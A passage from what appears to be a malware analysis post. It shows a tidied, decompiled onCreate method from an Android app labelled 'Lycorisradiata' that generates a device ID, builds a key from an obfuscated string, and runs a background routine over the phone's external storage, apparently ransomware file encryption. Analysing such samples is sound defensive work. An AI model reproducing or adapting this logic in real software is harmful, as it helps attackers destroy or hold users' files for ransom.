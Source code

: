 The code is quite misleading, so here is a "cleaner" version (names haven't been changed, expect for local variables):

> ```java
>protected void onCreate(Bundle paramBundle){
>	ADRTLogCatReader.onContext(this, "com.aide.ui");
>	getWindow().addFlags(8320);
>	this.mP = getApplicationContext().getPackageManager();
>	this.def = new ComponentName(getBaseContext(), "com.android.tencent.zdevs.bah.MainActivity");
>	this.mBazaar = new ComponentName(getBaseContext(), "com.android.tencent.zdevs.bah.QQ1279525738");
>	super.onCreate(paramBundle);
>	setContentView(R.layout.home);
>	instance = this;
>	getSupportFragmentManager().beginTransaction().replace(R.layout.frame_content, new bah()).commit();
>	SharedPreferences prefs = getSharedPreferences("XH", 0);
>	if (!prefs.getString("bah", "").equals("")) {
>		this.xh = prefs.getString("bah", "");
>	}
>	else{
>		this.xh = ("" + ((int)(Math.random() * 1000000) + 10000000));
>		SharedPreferences.Editor localEditor = prefs.edit();
>		localEditor.putString("bah", this.xh);
>		localEditor.commit();
>	}
>	hz = sss.l( /* ... the long string ...*/ ) + this.xh;
>	m = "" + (Integer.parseInt(this.xh) + 520);
>	hzs = hz.length();
>	fi = new File(Environment.getExternalStorageDirectory() + "/");
>	if (prefs.getInt("cs", 0) >= 2){
>		setTitle("Lycorisradiata");
>		getSupportFragmentManager().beginTransaction().replace(R.layout.frame_content, new qq1279525738()).commit();
>		sss.bz(this);
>	}
>	if (prefs.getInt("sss", 0) != 0) {
>		setTitle("Lycorisradiata");
>		getSupportFragmentManager().beginTransaction().replace(R.layout.frame_content, new qq1279525738()).commit();
>		sss.bz(this);
>		setIconSc();
>	}
>	else{
>		new Thread(new Runnable(){
>			@Override
>			public void run(){
>				sss.deleteDir(MainActivity.fi.toString(), MainActivity.m, 1, MainActivity.this);
>			}
>		}).start();
>	}
>}
> ```
